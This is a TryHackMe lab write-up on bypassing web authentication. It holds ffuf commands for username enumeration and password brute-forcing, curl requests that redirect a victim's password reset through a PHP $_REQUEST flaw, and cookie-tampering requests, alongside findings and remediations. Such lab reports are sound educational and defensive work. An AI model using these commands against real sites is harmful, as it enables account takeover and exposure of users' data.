## Bypass Authentication

### Overview

I completed a fun hands‑on project with authentication bypass techniques in the web hacking module on TryHackMe. This project centers on learning how website authentication can be bypassed, defeated, or broken—and why these flaws are critical, often leading to leaks of customers' personal data.

### Objectives

- Learn how website authentication can be enumerated, bypassed, or broken in practice.
- Build a wordlist of valid users via error‑based username enumeration.
- Brute‑force weak credentials using validated usernames and common passwords.
- Exploit a logic flaw in the password reset flow to redirect a reset email.
- Tamper with cookies (plaintext, hashed, base64‑encoded) to escalate privileges.
- Document impact and provide remediations.

### Lab Environment

- Target app: `Acme IT Support`
- Base URLs used:
  - Signup: `http://10.201.81.187/customers/signup`
  - Login: `http://10.201.81.187/customers/login`
  - Reset Password: `http://10.201.81.187/customers/reset`
  - Cookie test endpoint: `http://10.201.81.187/cookie-test`
- Tooling: `ffuf`, `curl`, common wordlists from `SecLists`, browser devtools, online hash lookup (e.g., `crackstation.net`).

---

### Methodology and Evidence

#### 1) Username Enumeration via Error Messages

I first probed the signup form for error‑based username enumeration. Submitting `admin` (with fake data) returned: “An account with this username already exists.” I then automated this with `ffuf` to build a list of valid usernames.

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt \
     -X POST \
     -d "username=FUZZ&email=x&password=x&cpassword=x" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -u http://10.201.81.187/customers/signup \
     -mr "username already exists"
```




Outcome: built `valid_usernames.txt` for later use.

Evidence:



#### 2) Brute Force Against Login

With valid usernames in hand, I ran a credential brute force using two wordlists (usernames and common passwords). I filtered out HTTP 200 to surface non‑200 responses that may indicate successful auth or redirects.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
     -X POST \
     -d "username=W1&password=W2" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -u http://10.201.81.187/customers/login \
     -fc 200
```

Notes:

- I cleaned raw `ffuf` output to ensure `valid_usernames.txt` contained only usernames.
- I watched for response size and status code anomalies to identify valid logins.

Evidence:




#### 3) Logic Flaw in Password Reset Flow

I analyzed the multi‑step reset flow at `/customers/reset`. Step 1 accepts a valid email.




Step 2 asks for the username.




Reset email flow is then initiated:




Internally, the app retrieves the account via the query string but later uses PHP `$_REQUEST`, which merges GET and POST (POST wins).



This enables overriding the email by adding `email` in the POST body.

Request 1 (legitimate step):

```bash
curl 'http://10.201.81.187/customers/reset?email=robert%40acmeitsupport.thm' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=robert'
```

Exploit (override email in POST, due to `$_REQUEST` behavior favoring POST):

```bash
curl 'http://10.201.81.187/customers/reset?email=robert%40acmeitsupport.thm' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=robert&email=attacker@hacker.com'
```

For demonstration, I created a customer account (which provides `{user}@customer.acmeitsupport.thm`).
Created customer account:



By substituting that email in the POST override, the reset link arrived in my tickets, allowing access to the victim account.



Evidence:
Received victim's reset ticket:


Ticket showed reset instructions:


Password reset/logged into victim account:


Accessed victim's support tickets:



#### 4) Cookie Tampering (Plaintext, Hashes, Encoding)

I interacted with the cookie test endpoint to validate privilege toggles via cookie manipulation.

Baseline:

```bash
curl http://10.201.81.187/cookie-test
# Not Logged In
```

User session (plaintext cookies):

```bash
curl -H "Cookie: logged_in=true; admin=false" http://10.201.81.187/cookie-test
# Logged In As A User
```

Admin session (plaintext cookies):

```bash
curl -H "Cookie: logged_in=true; admin=true" http://10.201.81.187/cookie-test
# Logged In As An Admin
```

I also reviewed hashed and encoded cookie patterns:

- Hashes (e.g., MD5/SHA‑1/SHA‑256/SHA‑512) can be recognized and sometimes reversed via lookup services like `crackstation.net` when they represent common values.
- Encoded session values (e.g., base64) are reversible; I decoded a sample and toggled the `admin` flag before re‑encoding.

Example base64 session manipulation:

```text
Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
```

Decoded JSON: `{ "id": 1, "admin": false }`
After editing to `true` and re‑encoding, the cookie elevated privileges in this demo context.

Evidence:







---

### Key Findings and Impact

- **Username enumeration** enabled building a valid user list, drastically reducing brute‑force search space.
- **Credential brute force** with common passwords led to account access where weak passwords existed.
- **Password reset logic flaw** allowed redirecting a victim’s reset email to my controlled inbox, enabling unauthorized account takeover.
- **Cookie tampering** demonstrated how plaintext or weakly protected cookies can be altered to escalate privileges.

Potential impacts include unauthorized account access, data exposure, and privilege escalation up to admin functionality depending on application design.

### Recommendations

- **Consistency in error messages**: Return uniform, generic responses for signup/login failure states; avoid differentiating between “user exists” and “invalid username.”
- **Rate limiting/lockout**: Enforce IP/user throttling, CAPTCHA, and account lockout thresholds.
- **Strong password policy**: Enforce length/complexity, password reuse prevention, breach‑list checks, and MFA.
- **Fix reset logic**: Do not use `$_REQUEST`; use strict source separation. Do not trust query string values for security decisions. Tie the reset token to the server‑side identity and deliver only to the verified email address from the database.
- **Harden cookie/session handling**:
  - Use signed and encrypted cookies or server‑side sessions.
  - Set `HttpOnly`, `Secure`, `SameSite` attributes.
  - Validate server‑side authorization for admin actions regardless of client‑side flags.
- **Monitoring and alerting**: Detect enumeration, brute force patterns, and anomalous password reset activity.

### How To Reproduce (Concise)

1. Build user list via signup error messages with `ffuf` (see command in Section 1).
2. Brute force login with two wordlists (see Section 2) and watch non‑200 responses.
3. Exploit reset flow by overriding the `email` parameter in POST (Section 3).
4. Test cookie behavior at `/cookie-test` (Section 4), toggling `logged_in` and `admin`.

### Tools and Wordlists Used

- `ffuf`, `curl`, `SecLists`, browser devtools
- Example wordlists:
  - `/usr/share/wordlists/SecLists/Usernames/Names/names.txt`
  - `/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt`

### Ethical Considerations

This was performed in a controlled TryHackMe lab for learning purposes only. Do not attempt these techniques against systems you do not own or have explicit permission to test.

---

### Repo Structure

- `README.md` – this report
- `screenshots/` – all evidence images referenced above
- `reports/` – optional space for future PDFs/exports

If you want this on GitHub, just commit and push the repo. The image links are relative and will render on GitHub.
